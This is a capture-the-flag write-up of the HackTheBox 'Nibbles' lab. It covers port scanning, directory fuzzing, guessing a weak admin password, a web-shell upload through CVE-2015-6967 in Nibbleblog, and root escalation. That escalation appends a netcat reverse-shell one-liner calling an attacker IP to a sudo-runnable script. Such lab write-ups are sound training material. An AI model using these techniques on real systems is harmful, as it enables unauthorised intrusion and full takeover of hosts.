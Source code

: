 ```yaml
---
title: HackTheBox - Nibbles Write-Up
date: 2025-07-03 19:19:00 +/-0100
categories: [Machines]
tags: [CTF,HackTheBox]
image: /assets/img/Machines/Nibbles/Nibbles.png
description: 
    This post documents my walkthrough of the Nibbles machine from Hack The Box. It involves basic enumeration, a web app vulnerability, and simple Linux privilege escalation.
---
```





## Enumeration

### Port Scanning
The first thing that we're going to do is scanning for open ports using Nmap.

```bash
# Nmap 7.95 scan initiated Wed May  7 18:25:33 2025 as: /usr/lib/nmap/nmap -Pn -n -sC -sV -T4 -p- -oA Nmap-All-Ports 10.10.10.75
Nmap scan report for 10.10.10.75
Host is up (0.051s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May  7 18:26:06 2025 -- 1 IP address (1 host up) scanned in 32.22 seconds
```
The Nmap scan returns a bunch of information, such as:
- The operating system is Ubuntu.
- Port `80/tcp` is open and running `HTTP` (Apache httpd 2.4.18).
- Port `22/tcp` is open and running `SSH` (OpenSSH 7.2p2 Ubuntu 4ubuntu2.2).

Since we don't have SSH credentials, we'll focus our attention on port 80.

### HTTP - Port 80

We begin by inspecting the root directory.

```bash
krakenn@Phoenix:~/CPTS/Boxes/NIBBLES$ curl 10.10.10.75 -o RDirectory-SC
```

![Desktop View](/assets/img/Machines/Nibbles/Root-Directory.png)

While inspecting the root directory, we discovered a new subdirectory: `/nibbleblog`.

### /nibbleblog

![Desktop View](/assets/img/Machines/Nibbles/Nibbleblog-Webpage.png)

Nothing intersting in this directory beside that the website is powered by `nibbleblog`.  
Using `Wappalyzer` we found the following results:

![Desktop View](/assets/img/Machines/Nibbles/Wappalyzer.png)

Page extension should be `.php`

### Directory / Page Fuzzing

```bash
krakenn@Phoenix:~/CPTS/Boxes/NIBBLES$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://10.10.10.75:80/nibbleblog/FUZZ -ic -e .php -o Directory-Fuzzing.json
```

![Desktop View](/assets/img/Machines/Nibbles/Directory-Page-Fuzzing.png)

#### /README 

![Desktop View](/assets/img/Machines/Nibbles/Nibbleblog-version.png)

This reveals the version of Nibbleblog that is being used. → `Nnibbleblog v4.0.3`

#### /content/users.xml

![alt text](../assets/img/Machines/Nibbles/content-users.png)

Username → `admin`

#### /admin.php 

![alt text](../assets/img/Machines/Nibbles/admin-pge.png)

It seems like the app blacklist IPs after some failed attemps.
After a deep inspection of the pages found i couldn't find a valid password, also nibbleblog does not have default creds. 
So we'll need to guess the password.

- admin : password
- admin : root
- admin : administratot
- `admin` : `nibbles`  → This one worked

## Exploitation

CMS used: `Nibbleblog v4.0.3`
This version of Nibbleblog is vulnerable to `CVE-2015-6967` which is an unrestricted file upload vulnerability in the `Image plugin` that allows remote administartors to execute arbitrary code by uploading a file with an executable extension, then accessing it via a direct request to the file in `content/private/plugins/my_image/image.php`

CVE Links:
- [CVE-2015-6967](https://nvd.nist.gov/vuln/detail/CVE-2015-6967)  
- [POC](https://packetstorm.news/files/id/133425)

Web Shells used:
- [wwwolf-php-webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)
- [p0wny-shell](https://github.com/flozz/p0wny-shell)

Go to : `http://<IP_@>/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image`  
Upload the web shell. ignore the errors

![alt text](../assets/img/Machines/Nibbles/webshell.png)

Finally access the image in `http://<IP_@>/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image`

![alt text](../assets/img/Machines/Nibbles/whoami.png)

As we can see the web shell works perfectly.  
Now let's search for the user flag.

![alt text](../assets/img/Machines/Nibbles/user-flag.png)

## Privilege Escalation

The first thing to do is run the `sudo -l` command to check if the current user can execute any commands as root without requiring the root password.

![alt text](../assets/img/Machines/Nibbles/sudo-l.png)

It turns out that the user `nibbler` can run `monitor.sh` as root.

**PS:** Don't mind me changing the web shell. I just wanted to test them both.

```bash
nibbler@Nibbles:…/plugins/my_image# unzip personal.zip

nibbler@Nibbles:…/plugins/my_image# cd personal/stuff

nibbler@Nibbles:…/plugins/my_image# echo "rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc [Attacker_IP] 1234 > /tmp/f" >> monitor.sh
```

![alt text](../assets/img/Machines/Nibbles/Priv_Escalation.png)

Now let's search for the root flag.

```bash
root@Nibbles:/home/nibbler/personal/stuff# cd /root

root@Nibbles:/home/nibbler/personal/stuff# cat root.txt
```

![alt text](../assets/img/Machines/Nibbles/root-flag.png)

# Mission complete

![alt text](../assets/Done.gif)